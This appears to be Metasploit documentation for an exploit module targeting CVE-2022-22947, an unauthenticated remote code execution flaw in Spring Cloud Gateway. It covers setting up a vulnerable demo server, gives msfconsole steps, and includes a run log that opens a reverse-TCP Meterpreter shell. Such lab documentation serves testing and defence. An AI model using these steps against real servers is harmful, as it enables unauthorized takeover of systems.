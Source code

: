 ## Vulnerable Application

The vulnerability exploits [CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947) an unauthenticated RCE
vulnerability in Spring Cloud Gateway. According to [VMware](https://tanzu.vmware.com/security/cve-2022-22947)
the versions affected are:

- 3.1.0
- 3.0.0 to 3.0.6
- Older, unsupported versions are also affected

A sample demo [project](https://github.com/wdahlenburg/spring-gateway-demo) is available,
which can be used to run a vulnerable server by following the installation instructions below.
    
### Installation Instructions

```bash
    # To use the pre-compile vulnerable application
    wget https://github.com/wdahlenburg/spring-gateway-demo/releases/download/v.0.0.1/spring-gateway-demo-0.0.1-SNAPSHOT.jar
    sudo apt install default-jdk
    java -jar spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000


    # If you want to compile for a version of spring cloud gateway on your own
    git clone https://github.com/wdahlenburg/spring-gateway-demo.git

    # In pom.xml, change the version in '<spring-cloud.version>2021.0.1-SNAPSHOT</spring-cloud.version>'. 
    # To see which spring cloud version includes which version of spring cloud gateway, 
    # look here : https://repo1.maven.org/maven2/org/springframework/cloud/spring-cloud-dependencies/

    apt install maven
    mvn package -DskipTests
    java -jar target/spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000
```


## Verification Steps

- Run the vulnerable server
- Start msfconsole
- Do: `use exploit/linux/http/spring_cloud_gateway_rce`
- Do: `set RHOSTS <server_ip>`
- Do: `set LHOST <metasploit_machine_ip>`
- Do: `set RPORT 9000`
- Do: `run`
- You should get a Meterpreter shell.

## Options

No particular option to be set

## Scenarios

### Spring Cloud gateway version 3.1.0 on Linux kali 5.18.0-kali5-amd64

```
msf > use exploit/linux/http/spring_cloud_gateway_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/spring_cloud_gateway_rce) > set RHOSTS 192.168.19.140
RHOSTS => 192.168.19.140
msf exploit(linux/http/spring_cloud_gateway_rce) > set RPORT 9000
RPORT => 9000
msf exploit(linux/http/spring_cloud_gateway_rce) > set LHOST 192.168.1.7
LHOST => 192.168.1.7
msf exploit(linux/http/spring_cloud_gateway_rce) > run

[*] Started reverse TCP handler on 192.168.1.7:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if server is vulnerable
[*] Triggering code execution using routes
[+] Route deleted
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Triggering code execution using routes
[*] Sending stage (40164 bytes) to 192.168.1.7
[*] Meterpreter session 7 opened (192.168.1.7:4444 -> 192.168.1.7:53264) at 2022-10-11 17:44:53 -0400
[+] Route deleted

meterpreter >
```

